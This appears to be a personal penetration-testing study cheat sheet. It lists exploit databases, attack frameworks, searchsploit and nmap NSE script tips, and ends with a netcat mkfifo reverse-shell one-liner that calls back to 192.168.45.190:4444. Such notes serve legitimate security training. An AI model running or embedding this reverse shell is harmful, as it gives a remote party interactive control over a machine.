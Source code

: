# Online exploit resources

- exploit-db.com
- packetstormsecurity.com
- google: ``` firefox --search "Microsoft Edge site:exploit-db.com" ```

# Offline exploit 

- metasploit
- core impact
- canvas
- BeEF

## Searchsploit
- lookup element e.g. window, php, webdev
- EDB-ID

## Nmap NSE Scripts
- only can use enum script
  ``` grep Enum /usr/share/nmap/scripts/*.nse ```
- scripts path ``` /usr/share/nmap/scripts ```
- more info ``` -script-help=???.nse ```

## Reverse shell: /dev/tcp maybe not here
- related to OS 
- use this or test other rev shell until success
``` rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.190 4444 >/tmp/f" ```